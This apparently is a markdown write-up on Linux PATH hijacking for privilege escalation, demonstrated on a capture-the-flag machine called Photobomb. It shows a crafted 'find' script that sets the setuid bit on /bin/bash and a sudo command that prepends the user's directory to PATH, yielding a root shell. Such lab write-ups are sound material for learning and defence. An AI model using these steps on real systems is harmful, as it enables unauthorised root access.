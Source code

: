 ```yaml
---
description: >-
  Linux PATH Hijacking 
title: Linux PATH Hijacking              # Add title here
date: 2023-02-04 08:00:00 -0600                           # Change the date to match completion date
categories: [04 Privilege Escalation, Linux - PATH Hijacking]                     # Change Templates to Writeup
tags: [path hijacking, linux privesc]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

In order to exploit a PATH Hijacking we need to identify two things:
- 1) That the script can be executed on another user's context
- 2) There is a missing relative path on a command or on a library

## BASH
Let's analyze the following code:
```bash
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```
As we can see the "find" command is executed without relative path (such as /bin/cat or /usr/bin/truncate) so this gives us an entry point of a privesc.
In order to hijack a PATH environment we need to first craft a script called as the name of the vulnerable variable, in this case "find":

```bash
# Script that will give special permission to the bash binary to run as root without password.
wizard@photobomb:~$ cat find
#!/bin/bash
chmod 4755 /bin/bash
```
Then we need to hijack the environment "PATH" variable with the folder where this new crafted "find" script is located:
```bash
# Actual PATH environment variable:
wizard@photobomb:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
# PATH that we need to inject on such $PATH variable:
wizard@photobomb:~$ echo $PWD
/home/wizard
```
The order where a script looks for a non-relative path command/library is from left to right on the $PATH variable, first place that will lookup is the /home/wizard path, to do so we can execute the following commands to add the PATH environment:
```bash
# Command to add /home/wizard to the PATH
wizard@photobomb:~$ sudo PATH=$PWD:$PATH /opt/cleanup.sh 
wizard@photobomb:~$ ls -al /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```

It is of upmost importance to give execution permissions to the script, specially if it's being executed automatically:
```bash
wizard@photobomb:~$ chmod +x find
```

Examples:
[[Photobomb#^2939e0]]